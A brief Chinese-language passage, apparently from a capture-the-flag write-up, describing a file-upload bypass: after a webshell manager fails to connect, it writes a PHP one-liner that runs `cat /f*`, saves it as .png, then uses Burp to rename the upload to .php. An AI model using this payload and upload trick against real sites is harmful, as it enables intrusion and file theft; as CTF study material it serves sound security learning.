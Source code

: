 ![image-20231120210813983](assets/img/2023/11/image-20231120210813983.png)

蚁剑连不上

换种方法，写

```
<?=`cat /f*`;
```

该文件后缀为png，上传时用burp抓包，再该后缀为php
